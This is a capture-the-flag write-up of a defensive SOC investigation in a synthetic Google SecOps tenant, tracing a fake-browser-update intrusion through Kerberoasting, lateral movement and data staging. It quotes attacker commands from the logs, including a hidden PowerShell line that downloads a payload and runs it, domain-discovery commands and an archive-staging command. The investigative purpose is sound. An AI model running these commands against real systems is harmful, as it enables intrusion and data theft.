

> [!success] Solved — 2026-10-30 04:53 (platform-local) · 6/6 accepted · "Scenario Pwned"
> No `HTB{}` string exists for this room — it is question-graded, six short answers. All six were read directly from raw logs in the live SecOps tenant, not from Gemini summaries, and all six were accepted.
>
> | # | Question (short) | Answer | Evidence source |
> |---|---|---|---|
> | 1 | Compromised Denver endpoint | `CYM-DEN-W10-042.cymbal.corp` | SOAR case 33 entities; Sysmon `Computer` field |
> | 2 | Compromised blog (referer of the update archive) | `marketingtrends-insider.com` | Zscaler NSS `refererURL` on the ZIP GET |
> | 3 | Target PID of hollowed `svchost.exe` | `624` | Sysmon EID 8 `TargetProcessId` |
> | 4 | SPN requested in Kerberos TGS ticket | `MSSQLSvc/CYM-DB-01.cymbal.corp:1433` | Security 4769 `ServiceName` on CYM-DC-01 |
> | 5 | Cracked account used for lateral movement | `svc_backup` | Security 4624 on CYM-FS-01, LogonType 3, NTLM, from 10.240.32.115 |
> | 6 | Staging archive on the file server | `Financial_Audit_2026.zip` | Sysmon EID 11 `TargetFilename` on CYM-FS-01 |
>
> Very easy · 700 points · live SecOps instance required for every flag.

> [!info] Scenario, verbatim
> Welcome to the Cymbal Investments Security Operations Center. A high-priority case titled "PowerShell Download And Execute" has just landed in your queue after Curated Detections flagged suspicious activity originating from an endpoint in the Denver office. Leveraging the full power of Google SecOps, from lightning-fast SIEM search and Gemini-assisted investigations to frontline adversary context in Google Threat Intelligence, your mission is to trace the intrusion back to its initial point of entry, and and uncover the adversary's ultimate objectives before critical corporate assets are compromised.
>
> **Hint (platform):** Start in the SOAR Case queue for "PowerShell Download And Execute" to identify the compromised Denver workstation and its internal IP, then pivot into SIEM Search. After initial execution on the workstation you will need to follow the attacker's IP address across logs on both the Domain Controller and the File Server.

> [!warning] Time display offset in this tenant
> The SIEM Search results grid rendered every timestamp **one hour later** than the raw log's own UTC value (grid `2026-10-15T20:07:33` ↔ raw `event_timestamp: "2026-10-15T19:07:33Z"`). [Unverified] why — most likely a tenant display-timezone setting. **Every time in this note is the raw-log UTC value** unless marked "grid".

---

## 0. How the flags were obtained

1. Opened the SOAR **Cases** queue, filtered on `PowerShell Download`, opened case **ID 33** (3 alerts, Curated Detections). Read the Entities panel → hostname `CYM-DEN-W10-042.CYMBAL.CORP`, user `MARCUS.VANCE`, PIDs 4192 / 6124 / 2048. **Flag 1.**
2. SIEM Search on `principal.hostname = /CYM-DEN-W10-042/ nocase`, 13–19 Oct → 12 events. Gemini summary of the result set gave the workstation IP **10.240.32.115** and the two internal destinations 10.240.10.2 (DC) and 10.240.10.50 (FS).
3. **Pivot: searched the proxy by IP, not hostname** — `principal.ip = "10.240.32.115" AND metadata.event_type = "NETWORK_HTTP"` → 15 Zscaler events. Opened the 19:07:33Z GET to `static.cdn-updater-distribution.net`, Raw Log tab → `url=…/releases/ChromeSetup_v124.zip`, `refererURL=https://marketingtrends-insider.com/`. **Flag 2.**
4. Searched `d27e15eb` across `principal.process.file.full_path`, `target.process.file.full_path`, `target.file.full_path` → 1 event, `PROCESS_MODULE_LOAD` 19:29:19Z. Raw Log (XML) → Sysmon **EID 8**, RuleName `T1055.012 Process Hollowing`, `SourceProcessId=6124`, `TargetImage=svchost.exe`, **`TargetProcessId=624`**. **Flag 3.** (Gemini's case summary said 6124 — that is the *source* PID.)
5. `principal.hostname = /CYM-DC-01/` returned nothing, so followed the hint literally: `(principal.ip = "10.240.32.115" OR target.ip = "10.240.32.115" OR src.ip = "10.240.32.115") AND metadata.event_type != "NETWORK_HTTP"` → 5 events including a `USER_UNCATEGORIZED` **4769** at 20:01:11Z. Raw Log (JSON) → `Hostname: CYM-DC-01.cymbal.corp`, `ServiceName: MSSQLSvc/CYM-DB-01.cymbal.corp:1433`, `TicketEncryptionType: 0x17`. **Flag 4.**
6. Same result set, the `USER_LOGIN svc_backup` row → Raw Log → **4624** on `CYM-FS-01.cymbal.corp` at 20:14:19Z, `LogonType 3`, `NTLM`, `WorkstationName CYM-DEN-W10-042`, `IpAddress 10.240.32.115`. **Flag 5.**
7. Searched the file server and the account together: `principal.hostname = /CYM-FS-01/ nocase OR target.hostname = /CYM-FS-01/ nocase OR observer.hostname = /CYM-FS-01/ nocase OR principal.user.userid = /svc_backup/ nocase OR target.user.userid = /svc_backup/ nocase` → 6 events. Opened the `FILE_CREATION` row → Sysmon **EID 11**, RuleName `T1074 Data Staged`, `TargetFilename=C:\Windows\Temp\Financial_Audit_2026.zip`, `User=CYMBAL\svc_backup`. **Flag 6.**
8. Walked back through every `PROCESS_LAUNCH` and `NETWORK_CONNECTION` on the workstation and the file server, reading `CommandLine`, `ParentImage`, `LogonId`, `DestinationPort` from the Sysmon XML, to build the timeline in §3 and eliminate the decoys in §6.

---

## 1. Shape of the challenge

**Target.** A live Google SecOps (Chronicle) tenant, `ctf-us-03`, pre-loaded with a synthetic Cymbal Investments environment. The scenario zip (`investigation_Deceptive_Click.zip`) contains **one file** — the Google Threat Intelligence *FAKEUPDATES* Malware Profile PDF — and no answers. Every flag lives only in the tenant.

**Log sources observed** (from `metadata.log_type` / `product_name` on the events actually read):

| Log type | Product | What it covered here |
|---|---|---|
| `ZSCALER_WEBPROXY` | Zscaler NSS | Workstation web traffic — download, referer, C2 POSTs |
| `WINDOWS_SYSMON` | Microsoft-Windows-Sysmon | EID 1 (process), 3 (network), 8 (CreateRemoteThread), 11 (file create) on workstation and file server; each carries a `RuleName` with the ATT&CK technique pre-labelled |
| `WINEVTLOG` | Microsoft-Windows-Security-Auditing | 4769 on the DC, 4624 on the file server |
| Okta (per Gemini summary of result set) | — | marcus.vance SSO login 18:24:24Z — baseline, pre-compromise |

**Scoring.** Six question-graded answers, exact-format. No flag string.

**The one structural fact that mattered:** the **hostname is only populated on endpoint-sourced events**. Proxy events key on `principal.ip`; the DC's 4769 and the file server's 4624 key on the *client* IP, with the server name buried in the raw JSON `Hostname` field. `principal.hostname = /CYM-DC-01/` returns nothing. The hint — "follow the attacker's IP address" — is literal.

**The second structural fact:** Gemini's case summary is wrong on flag 3 (reports the source PID 6124 as the hollowed target). Every answer here was confirmed in the raw log before being accepted.

---

## 2. Network map and asset inventory



| Asset | IP | Role | Evidence that fixes it |
|---|---|---|---|
| CYM-DEN-W10-042.cymbal.corp | 10.240.32.115 | Patient zero, Marketing dept workstation (Zscaler `department=Marketing` on blog GET) | Sysmon `Computer`; Zscaler `clientIP` |
| CYM-DC-01.cymbal.corp | 10.240.10.2 | Domain controller — Kerberoast target, SMB probe target | 4769 `Hostname`; Sysmon EID 3 `DestinationHostname` |
| CYM-FS-01.cymbal.corp | 10.240.10.50 | File server — WinRM target, staging host | 4624 `Hostname`; EID 3 / 11 |
| CYM-DB-01.cymbal.corp | not observed | SQL host whose SPN was roasted | 4769 `ServiceName` only — [Certain] no traffic to it in the data read |
| svc_backup | SID S-1-5-21-3849102931-1029384910-192837465-**1088** | Service account owning `MSSQLSvc/CYM-DB-01…:1433`; cracked | 4769 `ServiceSid` ends -1088 = 4624 `UserID` ends -1088 |
| marcus.vance | SID …-1104 | Initial victim | Sysmon `Security UserID`; 4769 `AccountName` |
| sarah.jenkins | — | Admin running `nightly_backup.ps1` on FS — **noise, not attacker** | §6 |

Subnet masks are not in the data — the `/?` is deliberate. [Guessing] 10.240.32.0/24 workstation VLAN and 10.240.10.0/24 server VLAN, from the third octets alone.

---

## 3. Cyber Kill Chain reconstruction

All times raw-log UTC, 2026-10-15. Confidence labels: **[Certain]** = read from a raw log field; **[Likely]** = strong inference from two or more logs; **[Inference]** = deduced, with the reasoning stated; **[Guessing]** = filling a gap.

**Summary**. Sub-sections 3.1–3.7 carry the detail.

| # | Phase | What happened | Basis (record) | Confidence | ATT&CK | Break point |
|---|---|---|---|---|---|---|
| 1 | Reconnaissance | Outside the evidence: nothing in the tenant covers adversary recon of Cymbal (§3.1) | No record | [Likely] opportunistic drive-by | — | — |
| 2 | Weaponization | ZIP lure `ChromeSetup_v124.zip` holding `ChromeSetup.js`; stage-2 PE served as `.png` | Zscaler `filetype=ZIP`; Sysmon EID 11 `ChromeSetup.js`; EID 1 download command line | [Certain] for the artefacts. [Likely] built off-tenant | T1036.008 | Proxy file-type inspection |
| 3 | Delivery | Blog theme JS, then the ZIP with the blog as referer, 19:07:19–19:07:33Z | Zscaler `refererURL` on the ZIP GET | [Certain] referer chain. [Likely] drive-by | T1189 | §10 item 1 |
| 4 | Exploitation | User ran `ChromeSetup.js` in `wscript.exe`, 19:14:39Z | Sysmon EID 1, PID 4192, parent `explorer.exe` | [Certain] | T1204.002 · T1059.007 | §10 item 2 |
| 5 | Installation | PowerShell fetched `d27e15eb.exe`, which hollowed SYSTEM `svchost.exe` PID 624, 19:21:24–19:29:19Z | Sysmon EID 1 PID 6124; EID 8 `TargetProcessId=624` | [Certain] | T1059.001 · T1105 · T1055.012 | §10 items 3–4 |
| 6 | Command & Control | Two HTTPS POST channels through the proxy, 19:14:51Z and 19:34:09Z | Zscaler POSTs to `sdce.distributors.commdistinc.com` and `cdn-metrics-analytics.net` | [Certain] for the channels. [Likely] stage 2 from the hollowed process | T1071.001 | Egress categorisation of new domains |
| 7 | Actions on Objectives | Discovery, Kerberoast, `svc_backup` over WinRM to the file server, Q3 audit files archived to `C:\Windows\Temp`, 19:54:49–20:34:09Z | Sysmon EID 1 / 3 / 11; Security 4769 on CYM-DC-01; 4624 on CYM-FS-01 | [Certain] | T1087.002 · T1018 · T1558.003 · T1021.002 · T1078.002 · T1021.006 · T1083 · T1560.001 · T1074.001 | §10 items 5–8 |
| — | *End state (beyond the model)* | Archive staged; no exfiltration found after 20:34:09Z (§3.7, H7) | Zscaler, Sysmon, WINEVTLOG as queried (§4) | [Certain] for those sources | — | Remove the archive; reset `svc_backup` |

### 3.1 Reconnaissance

Nothing in the tenant covers adversary recon of Cymbal. [Likely] This is opportunistic: FAKEUPDATES (SocGholish) is a drive-by framework that profiles whoever lands on an injected site; the GTI profile describes exactly that delivery model, and the victim is a Marketing user reading a marketing blog. No targeting of Cymbal specifically is evidenced.

### 3.2 Weaponization

[Certain] The lure is a ZIP named `ChromeSetup_v124.zip` (84,210 bytes, Zscaler `filetype=ZIP`, `threatname=None`) containing `ChromeSetup.js`. [Certain] The second stage is a PE served with a `.png` extension (`/assets/d27e15eb.png`) and renamed to `.exe` on disk by the download command — `T1036.008 Masquerade File Type`. [Likely] Both were built off-tenant; no build artefacts exist in the data.

### 3.3 Delivery

| Time | Event | Field evidence |
|---|---|---|
| 18:24:24Z | marcus.vance Okta SSO login from 10.240.32.115 | `USER_LOGIN` — baseline, [Certain] pre-compromise |
| 18:54:39Z | `GoogleUpdate.exe /c` launched by `svchost.exe -k netsvcs -p` **PID 624** | Sysmon EID 1, RuleName T1053 — legitimate scheduled updater; note the PID, it matters at 19:29 |
| 19:07:19Z | GET `https://marketingtrends-insider.com/wp-content/themes/theme/assets/js/jquery.min.js` — 43,100 B, `urlcategory=Blogs`, `pagerisk=0`, `department=Marketing` | Zscaler — [Likely] the injected loader rides inside a theme JS file; 43 KB is plausible for jquery + injected stub |
| **19:07:33Z** | **GET `https://static.cdn-updater-distribution.net/releases/ChromeSetup_v124.zip`, `refererURL=https://marketingtrends-insider.com/`, `status=200`, `action=Allowed`** | Zscaler — **Flag 2.** 14 seconds after the blog JS loaded |
| 19:08:14Z | `FILE_CREATION ChromeSetup.js` by `explorer.exe` in `C:\Users\marcus.vance\Downloads\` | Sysmon EID 11 — user extracted the ZIP |

[Certain] Referer chain is blog → fake CDN. [Certain] The proxy allowed the ZIP with zero threat classification — the first detection opportunity was missed.

### 3.4 Exploitation

| Time | Event | Field evidence |
|---|---|---|
| **19:14:39Z** | `C:\Windows\System32\wscript.exe "C:\Users\marcus.vance\Downloads\ChromeSetup.js"` — **PID 4192**, parent `explorer.exe` PID 3140, LogonId `0x1A4F9` | Sysmon EID 1, RuleName `T1059.007 JavaScript` — the "deceptive click" |
| 19:14:51Z | POST `https://sdce.distributors.commdistinc.com/editContent` — 1,570 B up / 656 B down, `useragent=Mozilla/4.0`, `status=200` | Zscaler — [Certain] this hostname and path match the C2 in the GTI FAKEUPDATES profile verbatim. 12 s after wscript started. The `Mozilla/4.0` UA (every other request is `Mozilla/5.0`) is the script's own HTTP client, not the browser |

[Certain] User execution of a JScript file (`T1204.002`) is the exploitation step — no software vulnerability was used.

### 3.5 Installation

| Time | Event | Field evidence |
|---|---|---|
| **19:21:24Z** | `powershell.exe -w Hidden -c "iwr -usebasicparsing https://static.cdn-updater-distribution.net/assets/d27e15eb.png -OutFile C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe; Start-Process C:\Users\marcus.vance\AppData\Local\Temp\d27e15eb.exe"` — **PID 6124**, parent `wscript.exe` PID 4192 | Sysmon EID 1, RuleName T1059.001 — Curated Detection "PowerShell Download and Execute" fired here (alerts 1 and 2 in case 33) |
| 19:21:31Z | `powershell.exe` PROCESS_UNCATEGORIZED alert | second curated alert, same process |
| **19:29:19Z** | **Sysmon EID 8 CreateRemoteThread** — `SourceImage=…\d27e15eb.exe` `SourceProcessId=6124` → `TargetImage=C:\Windows\System32\svchost.exe` **`TargetProcessId=624`**, `TargetUser=NT AUTHORITY\SYSTEM`, `StartAddress=0x00007FF7B4811000`, `NewThreadId=4198`, RuleName `T1055.012 Process Hollowing` | **Flag 3.** The target is the `netsvcs` svchost that launched GoogleUpdate at 18:54 — a long-lived SYSTEM host process |
| 19:34:09Z | POST `https://cdn-metrics-analytics.net/api/v1/telemetry` — 1,428 B up / 412 B down, `useragent=Mozilla/5.0` | Zscaler — [Likely] stage-2 beacon from the hollowed svchost; distinct infrastructure from the FAKEUPDATES C2, first contact 5 min after injection |

> [!example] Evidence exhibit — the hollowed process is PID 624, not 6124
> | Field | Value |
> |---|---|
> | Event | Sysmon EID 8 (CreateRemoteThread) |
> | `SourceImage` | `…\d27e15eb.exe` |
> | `SourceProcessId` | `6124` |
> | `TargetImage` | `C:\Windows\System32\svchost.exe` |
> | `TargetProcessId` | `624` |
> | `TargetUser` | `NT AUTHORITY\SYSTEM` |
> | `NewThreadId` | `4198` |
> | `RuleName` | `T1055.012 Process Hollowing` |
>
> Source: `WINDOWS_SYSMON`, CYM-DEN-W10-042, 2026-10-15 19:29:19Z (raw). [Certain] — every value read from the original record.
>
> **Limits of the proof:** EID 8 records a remote thread, not the hollowing itself; the technique name is the scenario author's `RuleName`. The source PID is also the PowerShell host's PID (note below).

> [!note] A PID oddity worth stating rather than hiding
> Sysmon records the EID 8 with `SourceProcessId=6124` — but 6124 is also the PID of the *PowerShell* that downloaded `d27e15eb.exe`, and the EID 1 for `net.exe`/`nltest.exe` at 19:54/19:57 names `ParentProcessId=6124` with `ParentImage=powershell.exe`. [Likely] The scenario author reused one PID for the PowerShell host and for the dropped EXE. In real telemetry those would differ. It does not change any answer, but it would confuse a reader reconciling process trees, so it is on record.

### 3.6 Command and Control

[Certain] Two C2 channels, both plain HTTPS POST through the corporate proxy, both `Allowed`:

* `sdce.distributors.commdistinc.com/editContent` (104.21.54.212) — FAKEUPDATES stage-1, matches GTI profile.
* `cdn-metrics-analytics.net/api/v1/telemetry` (198.51.100.84) — stage-2 after hollowing. [Likely] different operator tooling or a hand-off; [Guessing] this is the "Tell" the event brief alludes to — infrastructure that may recur in the other two Cold Room incidents.

Both server IPs 104.21.x.x sit in Cloudflare space [Likely, from the range] — the CDN and C2 are fronted the same way the blog is (172.67.182.11, also Cloudflare range).

[Certain] The stage-2 beacon's `198.51.100.84` is in 198.51.100.0/24, a documentation-only range (RFC 5737, TEST-NET-2). It is a scenario-authoring placeholder, not routable infrastructure, and no answer relies on it.

### 3.7 Actions on Objectives

| Time | Event | Field evidence |
|---|---|---|
| 19:54:49Z | `net.exe group "Domain Admins" /domain` — PID 8120, parent PS 6124, LogonId `0x1A4F9` | EID 1, RuleName `T1087.002 Domain Account Discovery` |
| 19:57:24Z | `nltest.exe /dclist:cymbal.corp` — PID 7840, parent PS 6124 | EID 1, RuleName `T1018 Remote System Discovery` — this is how the attacker learned CYM-DC-01 |
| **20:01:11Z** | **Security 4769 on CYM-DC-01** — `AccountName=marcus.vance`, `ServiceName=MSSQLSvc/CYM-DB-01.cymbal.corp:1433`, `ServiceSid=…-1088`, `TicketEncryptionType=0x17` (RC4-HMAC), `TicketOptions=0x40810000`, `Status=0x0`, `IpAddress=::ffff:10.240.32.115`, `IpPort=54128` | **Flag 4.** `T1558.003 Kerberoasting` — RC4 request for a user-account SPN from a workstation |
| 20:07:59Z | Sysmon EID 3 from PS 6124 → `CYM-DC-01.cymbal.corp` 10.240.10.2 **TCP 445** | RuleName T1021.002 — curated alert 3 fired here ("PowerShell Silent Download And Execute Activity") |
| **20:14:19Z** | **Security 4624 on CYM-FS-01** — `TargetUserName=svc_backup`, `UserID=…-1088`, `LogonType=3`, `LogonProcessName=NtLmSsp`, `AuthenticationPackageName=NTLM`, `WorkstationName=CYM-DEN-W10-042`, `IpAddress=10.240.32.115`, `IpPort=52180` | **Flag 5.** 13 min after the TGS request — [Likely] offline crack of the RC4 ticket, then NTLM auth with the recovered password. `T1078.002` |
| 20:14:24Z | Sysmon EID 3 from PS 6124 → `CYM-FS-01.cymbal.corp` 10.240.10.50 **TCP 5985**, `SourcePort=52180` | RuleName `T1021.006 WinRM` — **same source port 52180 as the 4624** — the two logs describe one TCP session |
| 20:21:09Z | On CYM-FS-01: `cmd.exe /c "dir C:\Shares\Finance_Shares\Q3_Audits\"` — `User=CYMBAL\svc_backup`, LogonId `0x4F1B2`, parent `wsmprovhost.exe -Embedding` (SYSTEM) | EID 1, RuleName T1083 — `wsmprovhost.exe` as parent is the WinRM remote-shell signature |
| 20:27:39Z | `powershell.exe -Command "Compress-Archive -Path C:\Shares\Finance_Shares\Q3_Audits\ -DestinationPath C:\Windows\Temp\Financial_Audit_2026.zip"` — svc_backup, LogonId `0x4F1B2`, parent cmd.exe | EID 1, RuleName `T1560.001 Archive via Utility` |
| **20:34:09Z** | **Sysmon EID 11** — `TargetFilename=C:\Windows\Temp\Financial_Audit_2026.zip`, `Image=powershell.exe` PID 4920, `User=CYMBAL\svc_backup`, RuleName `T1074 Data Staged` | **Flag 6.** |
| 21:11:09Z | `powershell.exe -ExecutionPolicy Bypass -File C:\AdminScripts\nightly_backup.ps1` — `User=CYMBAL\sarah.jenkins`, LogonId `0x3A2B1`, parent `explorer.exe` | **Not attacker** — §6 |

**Objective, as evidenced:** [Certain] the adversary targeted the finance share's Q3 audit files and staged them as a ZIP in `C:\Windows\Temp`. [Certain] No exfiltration event exists in the data read — no outbound transfer from CYM-FS-01, no upload from the workstation after 20:34Z. The kill chain ends at *staged*, not *exfiltrated*. "Domain Admins" enumeration at 19:54 plus SMB to the DC at 20:07 [Likely] show the DC was a secondary target that was abandoned once a cheaper path (Kerberoast → file server) opened.

### 3.8 What the Kill Chain view leaves out

Only the limits that bite in this room:

| Limit | Here |
|---|---|
| One phase for everything after the foothold | Nine of the attacker rows in §3.7 are Actions on Objectives: discovery, credential access, lateral movement, collection and staging. §3.7 orders them by time, not by phase. |
| No phase for credential reuse across a trust boundary | The Kerberoast-to-`svc_backup` step (4769 at 20:01:11Z, then 4624 at 20:14:19Z) moves the intrusion from a user identity to a service identity. The model has no slot for it. |
| Weaponization is rarely visible | Nothing in the tenant shows the ZIP or the PE being built (§3.2). |
| Linear, with no end state | The evidence ends at a staged archive with no exfiltration (H7). The model cannot say whether the chain stopped or the logging did. |

[Inference] The first half of the room is a malware delivery chain of the kind the model was built for, and it fits that half well.

### 3.9 Diamond Model — summary

Method: the Diamond Model of Intrusion Analysis.

| Vertex | In this room | Evidence | Confidence |
|---|---|---|---|
| Adversary | Unattributed. The scenario frames the delivery through its GTI FAKEUPDATES malware-profile attachment; that names a malware family, not an operator. | C2 host and path `sdce.distributors.commdistinc.com/editContent` match the profile verbatim (§3.4) | [Certain] for the match. [Inference] that the operator used FAKEUPDATES. No attribution made. |
| Capability | FAKEUPDATES JScript dropper `ChromeSetup.js` (T1059.007); PowerShell download (T1059.001, T1105); `d27e15eb.exe` hollowing (T1055.012); `net` and `nltest` (T1087.002, T1018); Kerberoasting (T1558.003); WinRM under `svc_backup` (T1021.006, T1078.002); `Compress-Archive` (T1560.001). The victim's own PowerShell, WinRM and `net` are part of the capability. | Sysmon EID 1 / 8 / 11; Security 4769 / 4624 (§3.4–§3.7) | [Certain] |
| Infrastructure | **Type 2:** `marketingtrends-insider.com` (172.67.182.11), a compromised third-party blog. **Type 1:** delivery host `static.cdn-updater-distribution.net` (104.21.88.45); stage-1 C2 `sdce.distributors.commdistinc.com` (104.21.54.212); stage-2 beacon `cdn-metrics-analytics.net` (198.51.100.84, a documentation-range placeholder, §3.6). No exfiltration infrastructure observed. | Zscaler `url`, `serverip`, `refererURL` (§3.3–§3.6) | [Certain] for the addresses. [Inference] for the Type 1 labels, from naming and use. |
| Victim | **Persona:** Cymbal Investments; a Marketing user; the finance share's Q3 audit files. **Asset:** CYM-DEN-W10-042, CYM-DC-01, CYM-FS-01; accounts `marcus.vance` and `svc_backup`. | §2 asset table | [Certain] |

**Result:** Partial success. The `svc_backup` credential was compromised and the audit files were staged (confidentiality at risk); exfiltration was not observed, so loss of the files is Unknown · **Direction:** Victim-to-Infrastructure (the victim's browser fetched from adversary infrastructure) · **Phases:** Kill Chain 3–7

**Limits** (part of the honest-scope rule): the adversary vertex holds a malware family and nothing more, and one room is not an attribution. Infrastructure is filled from the proxy alone; DNS and registration records were not queried. Cross-room comparison belongs in [[00_MOC-HTB-COLDROOM2026-Operation-Cymbal-Cold-Room-Event]].

---

## 4. Search log — every query, what came back, how it was reviewed

Case sensitivity was **Off** throughout. All queries were UDM syntax in SIEM Search, run by URL (`/search?query=…&startTime=…&endTime=…`). "Review" states exactly what was opened and which tab was read.

| # | Scope / time window (UTC) | Query | Result | How reviewed | What it yielded |
|---|---|---|---|---|---|
| S1 | SOAR Cases, filter `PowerShell Download` | — | 1 case, ID 33, 3 alerts | Overview tab: Gemini summary, Alerts table, **Entities Highlights** | Flag 1 hostname; user; PIDs 4192 / 6124 / 2048; DC and FS named as lateral targets |
| S2 | 2026-10-15 00:00 → 10-16 00:00 | `principal.hostname = /CYM-DEN-W10-042/ nocase AND metadata.event_type = "NETWORK_HTTP"` | **0** | — | Negative: proxy events do not carry the hostname |
| S3 | 10-13 → 10-19 | `principal.hostname = /CYM-DEN-W10-042/ nocase` | 12 events, 3 alerts | Results grid scraped; Gemini result summary read for the IP list | Workstation IP 10.240.32.115; 10.240.10.2 and 10.240.10.50 as peers; `svc_backup` appears as a USER_LOGIN with `NtLmSsp` |
| S4 | 10-15 18:00 → 23:00 | `principal.ip = "10.240.32.115" AND metadata.event_type = "NETWORK_HTTP"` | 15 events | Opened the 19:07:33Z row → **Raw Log tab (Zscaler key=value)** → read `url`, `refererURL`, `filetype`, `action`, `status`, `serverip`, `department` | **Flag 2**; ZIP download allowed; blog referer |
| S5 | 10-15 18:00 → 23:00 | `principal.process.file.full_path = /d27e15eb/ nocase OR target.process.file.full_path = /d27e15eb/ nocase OR target.file.full_path = /d27e15eb/ nocase` | 1 event | Opened → **Raw Log tab (Sysmon XML)** → parsed every `<Data Name=…>` | **Flag 3**; EID 8; source 6124 → target 624; RuleName T1055.012 |
| S6 | 10-15 18:00 → 10-16 00:00 | `metadata.product_event_type = "4769" AND principal.hostname = /CYM-DC-01/ nocase` | **0** | — | Negative: DC hostname is not in `principal.hostname` on 4769 |
| S7 | same | `(principal.hostname = /CYM-DC-01/ nocase OR target.hostname = /CYM-DC-01/ nocase OR principal.asset.hostname = /CYM-DC-01/ nocase) AND metadata.event_type != "NETWORK_CONNECTION"` | **0** | — | Negative: confirmed the DC is only reachable via the client IP |
| S8 | same | `(principal.ip = "10.240.32.115" OR target.ip = "10.240.32.115" OR src.ip = "10.240.32.115") AND metadata.event_type != "NETWORK_HTTP"` | 5 events, 1 alert | Opened the `USER_UNCATEGORIZED 4769` row → **Raw Log tab (JSON)** → read `Hostname`, `ServiceName`, `ServiceSid`, `TicketEncryptionType`, `IpAddress`, `IpPort`. Then opened the `USER_LOGIN svc_backup` row → Raw Log (JSON) → read `Hostname`, `LogonType`, `LogonProcessName`, `WorkstationName`, `UserID`, `IpPort` | **Flag 4** and **Flag 5**; the -1088 SID link between SPN and account; the 52180 port link between 4624 and Sysmon EID 3 |
| S9 | 10-15 18:00 → 10-16 06:00 | `principal.hostname = /CYM-FS-01/ nocase OR target.hostname = /CYM-FS-01/ nocase OR observer.hostname = /CYM-FS-01/ nocase OR principal.user.userid = /svc_backup/ nocase OR target.user.userid = /svc_backup/ nocase` | 6 events | Opened `FILE_CREATION` → Raw Log (Sysmon XML) → `TargetFilename`, `User`, `RuleName`. Then opened both svc_backup `PROCESS_LAUNCH` rows and the sarah.jenkins row → `CommandLine`, `ParentImage`, `ParentCommandLine`, `LogonId`, `User` | **Flag 6**; the full WinRM → cmd → Compress-Archive chain; sarah.jenkins eliminated |
| S10 | 10-15 18:00 → 23:00 | `principal.hostname = /CYM-DEN-W10-042/ nocase AND metadata.event_type = "PROCESS_LAUNCH"` | 5 events, 8 alerts | Opened all 5 → Raw Log XML → `CommandLine`, `ParentProcessId`, `ParentImage`, `LogonId`, `RuleName` | Full workstation process tree; net/nltest arguments; the download one-liner; GoogleUpdate parent PID 624 |
| S11 | same | `principal.hostname = /CYM-DEN-W10-042/ nocase AND metadata.event_type = "NETWORK_CONNECTION"` | 2 events | Opened both → Raw Log XML → `DestinationIp`, `DestinationPort`, `SourcePort`, `RuleName` | 445 → DC at 20:07:59Z; 5985 → FS at 20:14:24Z with source port 52180 |
| S12 | same | `principal.ip = "10.240.32.115" AND metadata.event_type = "NETWORK_HTTP" AND (target.hostname = /commdistinc\|cdn-metrics\|marketingtrends/ nocase)` | 3 events | Opened all 3 → Raw Log key=value → `url` (query string stripped), `requestmethod`, `useragent`, `requestsize`, `responsesize`, `serverip`, `urlcategory` | Both C2 POSTs; the blog's theme JS; UA split (`Mozilla/4.0` on the FAKEUPDATES POST only) |

**Review discipline applied to every flag:** (1) find the row in the grid, (2) open it, (3) switch to **Raw Log**, (4) read the vendor-native field, (5) only then accept the value. Gemini and the grid `Summary` column were used for orientation only. Rationale in §11.

---

## 5. Hypotheses — stated before the evidence, then tested

These were the working hypotheses going in, with what each predicted and how the data settled it.

| # | Hypothesis | Predicted | Outcome |
|---|---|---|---|
| H1 | The scenario follows the GTI FAKEUPDATES profile — compromised site injects JS, user downloads a fake update, JScript runs, PowerShell pulls stage 2 | A ZIP → `.js` → `wscript` → `powershell iwr` chain, and a C2 hostname from the PDF | **Confirmed [Certain].** Chain matches step for step; `sdce.distributors.commdistinc.com/editContent` is a verbatim match. The PDF's `Update.js` / `pbvzje4.top` IOCs were **not** reused — the author re-skinned the filenames and CDN |
| H2 | The "update archive" referer will be a blog domain, with at least one decoy destination in the same minute | A WordPress-looking domain in `refererURL` | **Confirmed [Certain].** `marketingtrends-insider.com`, `urlcategory=Blogs`, `/wp-content/` path. The decoy was `gemini.google.com` 55 s earlier — innocuous |
| H3 | Gemini's "PID 6124" is the hollowed svchost | `TargetProcessId=6124` on an EID 8 / 10 | **Refuted [Certain].** 6124 is `SourceProcessId`; target is 624. Gemini conflated source and target |
| H4 | The Kerberoast will show as 4769 with RC4 (`0x17`) from the workstation IP, and the SPN's service account will be the lateral-movement identity | `TicketEncryptionType=0x17`; SPN owner = later 4624 account | **Confirmed [Certain]** on encryption; **confirmed [Certain]** on identity via SID suffix -1088 appearing in both the 4769 `ServiceSid` and the 4624 `UserID` |
| H5 | The lateral-movement account will *not* be `svc_backup`, because a "backup" account on a Denver workstation looked like the routine-maintenance decoy the event brief warns about | A different `svc_*` account on the FS 4624 | **Refuted [Certain].** The 4624 is *on CYM-FS-01*, not the workstation — the grid's `Hostname` column showed `WorkstationName` (the client), which is what made it look like a local login. The raw `Hostname` field fixed it. The real decoy was `sarah.jenkins` |
